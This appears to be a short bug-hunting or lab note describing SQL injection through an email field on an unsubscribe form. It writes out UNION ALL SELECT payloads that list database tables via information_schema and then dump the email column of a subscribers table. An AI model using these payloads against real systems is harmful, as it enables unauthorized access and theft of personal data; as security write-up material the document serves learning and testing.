

abusing the unsubscribe
orginal request

sql error when adding a ' to the end of the email

----------------------------------------------------------------------
then...

==
respsonse...

bob@livemail.com' UNION ALL SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema=database()--
In MySQL, the system table information_schema.TABLES contains information of all tables related to table objects. Further, the TABLE_NAME field contains the name of each table in the database.

- this response gives the table name carvibe_subscribers
then we try.......- bob@livemail.com' UNION ALL SELECT email FROM carvibe_subscribers--
- using the carvibe_subsribers table
returns the table